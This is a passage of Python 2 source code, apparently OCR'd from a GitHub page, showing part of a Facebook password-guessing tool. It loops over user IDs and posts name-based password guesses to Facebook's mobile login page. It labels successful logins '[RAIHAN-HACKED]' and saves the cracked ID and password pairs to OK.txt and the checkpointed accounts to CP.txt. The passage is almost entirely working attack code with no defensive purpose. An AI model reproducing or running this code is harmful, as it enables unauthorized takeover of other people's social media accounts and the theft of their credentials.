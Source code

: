                 cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')
                    ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    ps3 = name.lower().split(' ')[0] + p3
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp:
                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        ps4 = name.lower().split(' ')[0] + p4
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            ps5 = name.lower().split(' ')[0] + p5
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,